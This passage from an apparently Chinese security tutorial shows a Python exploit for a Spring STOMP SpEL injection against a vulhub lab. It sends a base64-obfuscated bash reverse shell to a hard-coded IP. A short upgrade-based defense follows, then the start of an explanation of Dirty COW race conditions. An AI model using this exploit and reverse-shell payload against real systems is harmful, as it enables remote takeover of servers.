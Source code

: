 ```python
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()


sockjs = SockJS('http://175.24.4.26:8080/gs-guide-websocket')# 这里修改ip
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})

#这里修改命令
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMjQuNC4yNi84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)
```



#### **防御方法:升级高版本即可**



### 脏牛漏洞(Copy On Write 简称伪COW所以被称为脏牛)

由于条件竞争导致越权



首先讲解一下**原子性操作**

> 从汇编层面能用一行机器码描述的就是原子性操作不能用一行机器码描述的就不是原子性操作

例如a b 交换

```
mov eax,a
mov a,b
mov b,eax
```

从道理上面看上面的a和b交换没有任何问题,但是如果是多线程环境,a是一个全局变量并且在mov eax,a的过程中另一个线程调用了mov a,b并且又执行了其他的操作那就可能导致a的值并不是我们想要的
